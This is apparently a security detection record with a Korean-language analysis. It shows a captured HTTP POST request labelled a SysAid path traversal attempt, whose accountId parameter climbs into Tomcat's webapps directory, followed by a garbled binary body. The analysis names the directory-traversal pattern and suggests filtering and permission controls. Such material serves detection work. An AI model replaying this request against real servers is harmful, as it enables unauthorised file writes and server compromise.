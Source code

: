# SysAid_Path_Traversal_Attempt
SysAid_Path_Traversal_Attempt
POST /userentry?accountId=/../../../tomcat/webapps/qg6cP/&symbolName=test&base64UserName=YWRtaW4= HTTP/1.1
Host: 172.16.1.30
User-Agent: Mozilla/5.0 (Windows NT 10.0: Win64: x64: rv:126.0) Gecko/20100101 Firefox/126.0
Connection: close
Content-Length: 124
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip

x...ff.b......"AQ.N ....d...\u....uM..L..J*JBC8.......c.K-..f`d......2..:>.58.+...I.....`q.&.-.Pm...B,A. ...
...!.H..M..
?..- 공격 이름: `Directory Traversal`
- 판단 근거: 페이로드에 `../../../` 패턴이 포함되어 있습니다.
- 탐지 패턴: `../../../`
- 설명: `Directory Traversal`은 공격자가 서버의 파일 시스템을 탐색하여 민감한 파일에 접근할 수 있도록 하는 공격입니다.
- 대응 방법: 입력값에서 `../`와 같은 패턴을 필터링하고, 웹 애플리케이션의 파일 접근 권한을 엄격히 설정합니다.
